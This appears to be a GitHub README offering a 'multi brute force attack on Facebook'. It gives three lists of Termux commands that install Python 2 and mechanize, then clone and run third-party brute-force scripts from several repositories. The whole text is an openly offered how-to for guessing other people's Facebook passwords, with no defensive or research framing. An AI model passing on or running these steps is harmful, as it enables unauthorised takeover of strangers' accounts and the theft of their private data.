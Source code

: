 # MULTI-BRUTE-FORCE-ATTACK-ON-FACEBOOK
MULTI BRUTE FORCE ATTACK ON FACEBOOK  So Let's Start....  Step By Step  First of All Download Termux from Google Play and Install it  After installing just give these commands to Termux  And Run one by one  🔹Command List 1 $ apt update &amp;&amp; apt upgrade  $ pkg install python2 $ pkg install git  $ pip2 install mechanize  $ git clone https://github.com/pirmansx/mbf  $ cd mbf $ python2 MBF.py  🔹Command List 2  $ pkg update $ pkg upgrade $ pkg install python2  $ pkg install perl $ pkg install curl $ pkg install mechanize $ pip2 install requsets $ git clone https://github.com/Senitopeng/fbbrute $ cd fbbrute $ python2 fbbrute.py  🔹Command List 3 $ apt update &amp;&amp; apt upgrade  $ pkg install pip $ pkg install python $ pkg install python2  $ pip2 install mechanize $ pkg install git $ git clone https://github.com/hnov7/mbf $ cd mbf $ ls $ python2 mbf.py $ 1 $ y
